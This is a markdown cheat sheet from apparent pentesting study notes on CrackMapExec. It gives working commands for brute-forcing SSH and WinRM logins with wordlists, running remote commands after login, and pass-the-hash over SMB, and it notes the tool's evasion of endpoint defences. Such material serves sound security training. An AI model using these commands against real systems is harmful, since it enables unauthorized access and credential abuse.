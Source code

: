 # CME | CrackMapExec

"**_A swiss army knife for pentesting networks..._**" [ [Documentation](https://ptestmethod.readthedocs.io/en/latest/cme.html) ]
- CrackMapExec (a.k.a CME) is a `post-exploitation` tool that helps automate assessing the security of large Active Directory networks. 
- Built with stealth in mind, CME follows the concept of “Living off the Land”: abusing built-in Active Directory features/protocols to achieve it’s functionality and allowing it to evade most endpoint protection/IDS/IPS solutions.

**Supported Protocols:** `WinRM`, `MSSQL`, `SMB`, `SSH`, `LDAP`, `RDP`, `FTP`

**Do This:** https://academy.hackthebox.com/course/preview/using-crackmapexec

## Contents
- [Help](#help)
- [General Syntax](#general-syntax)
- [Examples](#examples)
- [SSH](#ssh)
- [WinRM](#winrm)
- [Pass-the-Hash (SMB)](#pass-the-hash-smb)

## Help
- Cheat Sheets: [StationX](https://www.stationx.net/crackmapexec-cheat-sheet/) | [OffSec](https://cheatsheet.haax.fr/windows-systems/exploitation/crackmapexec/) | [KSec, old](https://www.ivoidwarranties.tech/posts/pentesting-tuts/cme/crackmapexec-cheatsheet/)
- For help and syntax, just issue the command: `crackmapexec`, or:

```
crackmapexec -h
crackmapexec winrm -h  # for help specific to the winrm protocol
crackmapexec smb -h    # for help specific to the smb protocol, etc.
```

## General Syntax

```
crackmapexec <protocol> <target(s)> -u username -p password
# or, more complete:
crackmapexec [runtime options] <protocol> [options] [-M module] [-o module options] <target ip>
# see cheat sheet above
```

CrackMapExec can interact with various services (protocols) running on the target machine. Each can be used to perform specific tasks related to enumeration, exploitation, or lateral movement.
- WinRM, MSSQL, SMB, SSH, LDAP, RDP, FTP
- Each service/protocol has a help menu: `crackmapexec [service] -h`
- Examples: `crackmapexec smb -h`, `crackmapexec ssh -h`

Each service has multiple modules you can use: `crackmapexec [service] -L`
- `-L` - This will list out the modules available for that service/protocol

[options] - Options are specific to the service you are targeting. Here are the common options:
- `-u` : for username
- `-p` : for password
- `-h` : to get help for that module
- `-x` : COMMAND to execute a command on the target
- `-X` : PS_COMMAND to execute a PowerShell command-L list modules available for service

**NOTE:** When brute-forcing CrackMapExec will stop when it encounters the first successful attempt. 
- If you want it to continue, add this flag: `--continue-on-success`

## Examples

```
crackmapexec <protocol> <target(s)> -u username -p 'Admin!123@'   # or...
crackmapexec <protocol> <target(s)> -u='username' -p='Admin!123@'
```

## SSH

```
crackmapexec ssh 192.168.61.129 -u root -p /usr/share/wordlists/rockyou.txt
# brute force an ssh login providing the username 'root' and a password list
```

## WinRM

### Syntax:

```
crackmapexec winrm [target ip] -u administrator -p /usr/share/.../unix_passwords.txt
```

You can use the `-u` switch to specify a file of possible usernames to try.  
- But, if we can get into the admin account, we don't have to do priv esc (so we test with one username, "administrator," first).
- You should get a green `[+]` if successful.

Look over the output (from the top down): 
- First line: you can see it actually connects to WinRM (wsman is an implementation of WinRM: windows management).

### Execute Commands:

If you successfully found login credentials, you can use `crackmapexec` to execute arbitrary Windows commands on the target machine. Examples:

```
crackmapexec winrm [target ip] -u administrator -p tinkerbell -x "whoami"
# You should get some happy feedback along with the results of your command execution.
crackmapexec winrm [target ip] -u administrator -p tinkerbell -x "systeminfo"
# This takes a while to run but provides a lot of information about your target system.
```

## Pass-the-Hash (SMB)

### Syntax:

```
crackmapexec smb [target ip] -u Administrator -H "[administrator ntlm hash; copy-paste]"
```

This should indicated whether or not it works. 

If you get a green `[+]` and (`Pwn3d!`) then it works and you can try the execution of commands on the system...

```
crackmapexec smb [target ip] -u Administrator -H "[administrator ntlm hash; copy-paste]" -x "ipconfig"
```

It should give you visual feedback about the command execution. And there you go. Execute what you want.
